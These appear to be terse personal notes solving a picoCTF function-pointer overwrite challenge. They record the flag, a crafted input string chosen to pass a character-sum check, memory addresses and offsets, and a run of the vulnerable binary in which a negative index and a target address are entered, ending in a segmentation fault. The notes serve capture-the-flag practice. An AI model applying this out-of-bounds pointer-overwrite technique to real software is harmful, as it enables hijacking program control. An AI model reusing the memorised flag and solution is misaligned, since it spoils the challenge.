 # Exp

# Flag: picoCTF{0v3rwrit1ng_P01nt3rs_53614882}

# This to pass the easy check
ord('d')*11 + ord('{') + ord('r')
string = "ddddddddddd{r"


Address of the function pointer: 08049030
Address of easy_checker: 080492fc

-3092 => 0x08049030
08049036

-40
0x804bfe0 - 0x804c040

-92

./vuln           
Tell me a story and then I'll tell you if you're a 1337 >> ddddddddddd{r  
On a totally unrelated note, give me two numbers. Keep the first one less than 10.
-3092
0x080492fc
zsh: segmentation fault  ./vuln

0x804c080 check
0x804c040 fun

64 check
128 fun[0]
132 fun[1]
134 fun[2]


Lots of try and error.picoCTF{0v3rwrit1ng_P01nt3rs_53614882}